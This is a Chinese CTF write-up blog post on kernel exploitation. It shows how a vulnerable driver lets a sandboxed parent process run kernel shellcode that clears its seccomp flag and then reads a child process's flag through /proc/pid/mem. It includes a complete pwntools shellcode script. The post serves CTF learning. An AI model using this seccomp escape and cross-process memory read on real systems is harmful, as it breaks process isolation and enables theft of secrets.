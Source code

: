 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "kernel security 3: 利用内核漏洞操纵其他进程"
author: wsxk
date: 2025-10-20
comments: true
---
```


- [1. 前言](#1-前言)
- [2. 子进程存储flag](#2-子进程存储flag)
  - [2.1 解题思路](#21-解题思路)
- [3. 子进程存储flag后退出](#3-子进程存储flag后退出)
  - [3.1 解体思路](#31-解体思路)


# 1. 前言<br>
遇到了某种特定类型的CTF题目，大意是说，我们只能和父进程交互，但是flag被保留在子进程的内存当中（没有其他地方留存），父进程能够与内核驱动交互。题目的本意是让我们通过驱动的漏洞，让父进程能够偷取子进程的信息，打破进程隔离。<br>
我感觉十分的牛逼，故单开一章用于讲述实际实现和解法。<br>

# 2. 子进程存储flag<br>
代码逻辑如下图所示:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008123352.png)
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008123312.png)
总的来说，父进程创建子进程读取flag文件的内容后，并删除flag文件本身。
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008133555.png)
随后父进程开启seccomp，只允许write执行，并允许我们输入shellcode<br>
有问题的驱动程序代码如下:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251008133635.png)

## 2.1 解题思路<br>
1. 首先还是利用内核漏洞，解除`seccomp`机制。<br>
2. 随后，确定子进程的pid后，用`open`函数打开`/proc/pid/mem`。
3. `fseek`文件描述符到`0x404040`（flag的存放位置处）
4. `read`函数读取flag内容并打印

```python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'

escape_seccomp_shellcode = """
mov    rax,QWORD PTR gs:0x15d00
and    QWORD PTR [rax],0xfffffffffffffeff
ret
"""

execute_shellcode = f"""
/*write escape_seccomp_shellcode into kernel_module*/
mov rax, SYS_write
mov rdi, 3   /*目标程序打开的驱动文件描述符*/
lea rsi, [rip+escape_seccomp_shellcode]
mov rdx, {len(asm(escape_seccomp_shellcode))}
syscall 

/*open file*/
mov rax, SYS_open
lea rdi, [rip+file_name]
mov rsi, O_RDONLY
mov rdx, 511
syscall

/*fseek*/
mov rdi, rax
mov rsi, 0x404040 /*flag存放的虚拟地址*/
mov rdx, SEEK_SET
mov rax, SYS_lseek
syscall

/*fread*/
lea rsi, [rip+buffer]
mov rdx,0x200
mov rax, SYS_read
syscall

/*fwrite*/
mov rdi, 1 #out_fd
lea rsi, [rip+buffer]
mov rdx, 0x200
mov rax, SYS_write
syscall

mov rax, SYS_exit
syscall

escape_seccomp_shellcode:
{escape_seccomp_shellcode}

.align 8
file_name:
.string "/proc/166/mem"
.align 8
buffer:
.space 0x200
"""

bytes_io = asm(execute_shellcode)
f = open("./shellcode.bin","wb")
f.write(bytes_io)
f.close()
```


# 3. 子进程存储flag后退出<br>

## 3.1 解体思路<br>
尝试遍历内核地址空间的`physmap`区域每个page的0x40地址开头的值是否是`pwn`<br>

<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>